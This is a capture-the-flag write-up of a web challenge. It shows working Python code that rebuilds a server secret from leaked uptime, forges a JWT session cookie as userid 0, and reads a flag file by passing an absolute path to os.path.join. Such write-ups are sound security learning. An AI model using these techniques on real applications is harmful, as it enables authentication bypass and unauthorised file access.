

## Overview

Overall this was a pretty fun challenge, I enjoyed it a lot. It came off as easy at first, but tricked me in a few places. This challenge can be broken down into two major stages: figure out how to get the same secret key to sign a session cookie and how to get the file `flag.txt` from the `filename` url parameter.

## Approach

When I first opened up the web page, I got a 403 error. So I inspected the source code provided and found that the server is checking for a key value pair`{userid: 0}` in the session cookie.




### Stage 1

In order to sign the session cookie, I needed to create the same secret key as the server used to authenticate. Looking through the source code, I found that it returned `time.time()-time.started()` in the response when I sent a request with an incorrect session cookie. So I extracted the seconds in the response and calculated `time_started`, which was the key to crafting the secret key. Here is my code for signing the session cookie:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}
```


### Stage 2

The next stage of the challenge involved reading the file `flag.txt` from the `filename` url parameter. I first looked through the Dockerfile and found the directory `flag.txt` was in. The tricky part here was figuring out how to get from `files/` to the correct directory without using `../` for path traversal. It turned out that `os.path.join()` will overwrite the previous path if it sees another absolute path. So to get the final flag, I sent the request to the route `/api/file` with the absolute path to the file as the parameter.

```
r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```


## Solution

Putting everything together, here is my final solve for the challenge:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}

r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```
